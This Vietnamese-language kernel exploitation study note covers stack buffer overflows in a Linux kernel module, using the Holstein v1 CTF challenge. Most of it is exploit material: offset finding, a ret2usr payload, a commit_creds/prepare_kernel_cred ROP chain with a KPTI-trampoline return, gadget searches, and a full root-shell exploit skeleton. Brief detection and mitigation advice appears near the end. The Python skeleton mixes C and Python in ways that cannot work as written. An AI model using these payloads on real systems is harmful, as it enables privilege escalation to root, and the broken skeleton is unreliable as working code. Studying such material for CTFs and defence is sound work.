

> **Prerequisites**: [[02-kernel-memory-management|02. Kernel Memory]] · [[03-kernel-security-mitigations|03. Mitigations]] · [[04-kernel-debug-environment|04. Debug Environment]]
> **Objectives**:
> - Hiểu cách stack BOF xảy ra trong kernel module
> - Khai thác stack BOF với ret2usr (không có SMEP)
> - Bypass SMEP bằng ROP chain thuần kernel
> - Viết exploit hoàn chỉnh với pwntools từ PoC đến root shell
>
---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - Có custom kernel module với buffer overflow trong một handler (read/write/ioctl)
> - User có thể gọi handler (thường thông qua `/dev/<device>`)
> - Biết offset từ buffer đến return address (hoặc function pointer)
> - KASLR: cần leak nếu bật, hoặc disabled (CTF scenario đơn giản)
>
> [!tip] Đây là vulnerability class đơn giản nhất trong kernel
> Stack BOF trong kernel module có cùng cơ chế như userspace stack BOF, nhưng target là kernel return address → control flow trong Ring 0.
>
---

## Cơ chế tấn công

### Vulnerable module pattern

Dạng vulnerable code phổ biến nhất trong CTF:

```c
// Ví dụ: Holstein v1 (pawnyable.cafe)
static ssize_t module_write(struct file *file, const char __user *buf,
                             size_t count, loff_t *f_pos) {
    char kbuf[0x400];                           // buffer 1024 bytes trên stack

    if (copy_from_user(kbuf, buf, count))       // BUG: count không bị giới hạn!
        return -EINVAL;
    // ...
    return count;
}
```

**Stack layout khi vulnerable function thực thi:**

```text
High address
┌─────────────────────┐
│  caller frame       │
│  saved return addr  │  ← MUỐN ghi đè cái này
│  saved rbp          │
├─────────────────────┤
│  canary             │  ← nếu có, phải leak và ghi đúng giá trị
├─────────────────────┤
│  kbuf[0x400]        │  ← input của chúng ta bắt đầu đây
└─────────────────────┘
Low address
```

**Offset calculation:**

```python
# Dùng cyclic pattern để tìm offset
# Trong pwntools:
from pwn import *

payload = cyclic(0x500)    # Gửi cyclic pattern
# Kernel crash → lấy RIP từ dmesg hoặc GDB
# (gdb) x $rsp → tìm offset trong pattern
offset = cyclic_find(b'aaab')   # → offset đến return addr
```

### Attack Path 1 — ret2usr (không có SMEP)

Khi SMEP tắt, kernel có thể execute code ở userspace pages:

```c
// Step 1: Chuẩn bị shellcode ở userspace
void get_root() {
    // Gọi commit_creds(prepare_kernel_cred(0))
    // → Thay creds của process thành root (uid=0)
    void *(*pkc)(int) = (void *)prepare_kernel_cred_addr;
    void (*cc)(void *) = (void *)commit_creds_addr;
    cc(pkc(0));
}

// Step 2: Payload ghi đè return address thành địa chỉ get_root
// [padding đến offset] + [địa chỉ get_root trong userspace]
```

### Attack Path 2 — Kernel ROP (với SMEP, bypass bằng ROP)

Khi SMEP bật, cần ROP chain chỉ dùng gadgets từ kernel text:

```text
ROP chain mục tiêu:
    commit_creds(prepare_kernel_cred(0))
    return to userspace (qua KPTI trampoline)

Gadgets cần tìm:
    pop rdi ; ret            → set arg0 = 0
    xchg rax, rdi ; ret      → move kết quả prepare_kernel_cred vào rdi
    ret                      → stack alignment
    swapgs_restore_regs...   → KPTI trampoline
```

---

## Quy trình tấn công

**Môi trường giả định**: pawnyable.cafe Holstein v1, kernel 5.15, KASLR=off, SMEP=off, KPTI=off (để học cơ bản).

**Bước 1 — Xác định offset**

```python
from pwn import *

# Mở device
fd = open("/dev/holstein", "wb+")

# Gửi cyclic pattern
payload = cyclic(0x500)
fd.write(payload)

# Đọc dmesg hoặc check GDB để lấy RIP bị overwrite
# [  50.123] general protection fault: ...
# [  50.123] RIP: 0010:0x6161616b61616168   ← "haaaaak" trong cyclic
```

> **Expected output**: Kernel crash với RIP = địa chỉ trong cyclic pattern. `cyclic_find()` cho ra offset.
>
**Bước 2 — Tìm địa chỉ commit_creds và prepare_kernel_cred**

```bash
# Trong QEMU shell:
grep "commit_creds\|prepare_kernel_cred" /proc/kallsyms
# ffffffff810a1420 T commit_creds
# ffffffff810a14c0 T prepare_kernel_cred
```

> **Expected output**: Hai địa chỉ kernel symbols (fixed khi KASLR off).
>
**Bước 3 — Lưu userspace registers (cần để return về userspace)**

```c
// Phải lưu trước khi gửi exploit, để dùng trong trampoline
size_t user_cs, user_ss, user_rflags, user_rsp;
void save_state() {
    asm(
        "movq %%cs, %0\n"
        "movq %%ss, %1\n"
        "movq %%rsp, %3\n"
        "pushfq\n"
        "popq %2\n"
        : "=r"(user_cs), "=r"(user_ss), "=r"(user_rflags), "=r"(user_rsp)
        :
        : "memory"
    );
}
```

**Bước 4 — Build ROP chain (SMEP off: ret2usr)**

```python
# Không có SMEP — có thể nhảy thẳng vào userspace function
prepare_kernel_cred = 0xffffffff810a14c0
commit_creds        = 0xffffffff810a1420

# shellcode function đã được compile với địa chỉ cố định
get_root_addr = <địa chỉ của get_root() trong userspace>

# Payload
payload  = b"A" * offset            # padding
payload += p64(get_root_addr)       # overwrite return address
```

**Bước 5 — Build ROP chain (SMEP on)**

```python
# Tìm gadgets
# ropper -f vmlinux --search "pop rdi; ret"
pop_rdi  = 0xffffffff8135738d
xchg_rdi_rax = 0xffffffff81487980   # xchg rdi, rax; ... ; ret
kpti_tramp   = 0xffffffff81800e10 + 22  # swapgs_restore_regs_and_return_to_usermode

payload  = b"A" * offset
payload += p64(pop_rdi)
payload += p64(0)                    # arg: 0 → prepare_kernel_cred(0)
payload += p64(prepare_kernel_cred)
payload += p64(xchg_rdi_rax)        # rdi = kết quả (cred struct)
payload += p64(commit_creds)
# Return to userspace qua KPTI trampoline
payload += p64(kpti_tramp)
payload += p64(0)                    # padding
payload += p64(0)                    # padding
payload += p64(get_shell_addr)       # user RIP sau khi return
payload += p64(user_cs)
payload += p64(user_rflags)
payload += p64(user_rsp)
payload += p64(user_ss)
```

**Bước 6 — Gửi payload và verify**

```python
fd.write(payload)
# Chờ return
import subprocess
result = subprocess.run(["id"], capture_output=True, text=True)
print(result.stdout)  # uid=0(root) gid=0(root) groups=0(root)
```

> **Expected output**: `uid=0(root) gid=0(root)` — privilege escalation thành công.
>
---

## Biến thể & Bypass

### Stack BOF với KASAN (debug build)

KASAN detect stack overflow ngay khi xảy ra. Khi làm CTF với kernel có KASAN, stack overflow sẽ crash ngay. Cần dùng heap exploit thay thế.

### Function pointer overwrite thay vì return address

Một số modules lưu function pointer trên stack:

```c
struct operations ops = {
    .read = default_read,
    .write = default_write,
};
// stack BOF overwrite ops.read → fake function pointer
```

→ Không bị stack canary block (canary bảo vệ return address, không bảo vệ local variable).

### Stack Canary bypass với leak

```python
# Nếu có AAR primitive (arbitrary read):
# 1. Đọc canary từ stack
# 2. Đưa canary đúng vị trí vào payload
payload = b"A" * canary_offset + p64(canary) + b"B" * 8 + p64(rop_chain)
```

---

## Cây quyết định



---

## Command Cheatsheet

**Tìm offset**

```python
from pwn import *
payload = cyclic(0x500)
# Gửi, đọc crash, tìm pattern
offset = cyclic_find(b'haaa')   # thay bằng giá trị thực từ crash
```

**Tìm gadgets**

```bash
# ROPgadget
ROPgadget --binary vmlinux --rop | grep -E "pop rdi|pop rsi|xchg rdi"

# ropper
ropper --file vmlinux --search "pop rdi; ret"

# Tìm KPTI trampoline
grep "swapgs_restore_regs_and_return_to_usermode" /proc/kallsyms
```

**Save/restore userspace context**

```c
// Thêm vào exploit C code:
void save_state() {
    asm("movq %%cs, %0; movq %%ss, %1; movq %%rsp, %3; pushfq; popq %2"
        : "=r"(user_cs),"=r"(user_ss),"=r"(user_rflags),"=r"(user_rsp)
        :: "memory");
}
// Gọi save_state() trước khi gửi payload
```

**Full exploit skeleton (Python)**

```python
from pwn import *

context.arch = 'amd64'

# Địa chỉ lấy từ /proc/kallsyms hoặc sau KASLR leak
prepare_kernel_cred = 0xffffffff810a14c0
commit_creds        = 0xffffffff810a1420
pop_rdi             = 0xffffffff8135738d
xchg_rdi_rax        = 0xffffffff81487980
kpti_tramp          = 0xffffffff81800e32

OFFSET = 0x408   # padding đến return address

def get_shell():
    import os
    os.system("/bin/sh")

def exploit():
    save_state()   # save CS, SS, RFLAGS, RSP (implement in C)

    payload  = b"A" * OFFSET
    payload += p64(pop_rdi)
    payload += p64(0)
    payload += p64(prepare_kernel_cred)
    payload += p64(xchg_rdi_rax)
    payload += p64(commit_creds)
    payload += p64(kpti_tramp)
    payload += p64(0) * 2
    payload += p64(get_shell)    # return to this after kernel ROP
    payload += p64(user_cs)
    payload += p64(user_rflags)
    payload += p64(user_rsp)
    payload += p64(user_ss)

    fd = open("/dev/holstein", "wb+")
    fd.write(payload)
    fd.close()
```

---

## Daily Drill

**Thời gian**: 20–30 phút/ngày trong 14 ngày đầu.

**Drill 1 — Tìm offset với cyclic**
Mục tiêu: Từ code vulnerable đến offset trong dưới 5 phút.

```python
from pwn import *
payload = cyclic(0x500)
# gửi vào module, đọc crash, cyclic_find(...)
```

Luyện cho đến khi: quy trình cyclic → crash → offset quen tay.

**Drill 2 — Tìm gadgets với ropper**
Mục tiêu: Từ vmlinux, tìm `pop rdi; ret` và `xchg rdi, rax` trong 2 phút.

```bash
ropper --file vmlinux --search "pop rdi; ret"
ropper --file vmlinux --search "xchg rdi, rax"
```

Luyện cho đến khi: biết ngay gadgets cần tìm mà không cần nhìn notes.

**Drill 3 — Full exploit flow**
Mục tiêu: Chạy thành công Holstein v1 exploit trong dưới 15 phút.

Luyện cho đến khi: có thể reproduce exploit từ đầu không nhìn writeup.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **Kernel oops / panic log**: Trong `/var/log/kern.log` hoặc `dmesg`
> - `general protection fault` với RIP = giá trị bất thường → BOF attempt
> - `BUG: stack guard page was hit` → Stack overflow detected
> - `kernel stack overflow detected` → Stack canary triggered
>
> **KASAN report** (nếu có): Chi tiết overflow với stack trace
>
> [!note] Mitigation
> - Luôn validate `count` trong `copy_from_user()`: `if (count > sizeof(kbuf)) return -EINVAL;`
> - Enable kernel stack guard pages: `CONFIG_VMAP_STACK=y`
> - Compile modules với stack protector: `CONFIG_STACKPROTECTOR_STRONG=y`
> - Enforce SMEP/SMAP trong kernel config
>
---

## Lab Thực hành

| Platform | Machine/Challenge | Tại sao phù hợp |
|----------|-------------------|----------------|
| pawnyable.cafe | **Holstein v1** | Classic stack BOF, nokaslr, nosmep |
| pawnyable.cafe | **Holstein v2** | Tương tự nhưng với mitigations bật |
| CTF archive | **kernel-rop** (pwnable.tw) | Full SMEP/SMAP, ROP chain required |
| HTB | **Brainfuck2** (Retired) | Kernel exploitation path |

---

## Field Manual Entry

> [!abstract] Kernel Stack BOF — Quick Reference
> **Điều kiện**: Module với unbounded copy_from_user, có thể open /dev/<device>
> **Offset**: `cyclic(0x500)` → crash → `cyclic_find(rip_value)`
> **Gadgets**: `ropper -f vmlinux --search "pop rdi; ret"`
> **Symbols**: `grep "commit_creds\|prepare_kernel_cred" /proc/kallsyms`
> **KPTI bypass**: KPTI trampoline = `swapgs_restore_regs_and_return_to_usermode + 22`
> **Ref**: [[05-stack-bof-kernel|05. Stack Buffer Overflow in Kernel Modules]]
>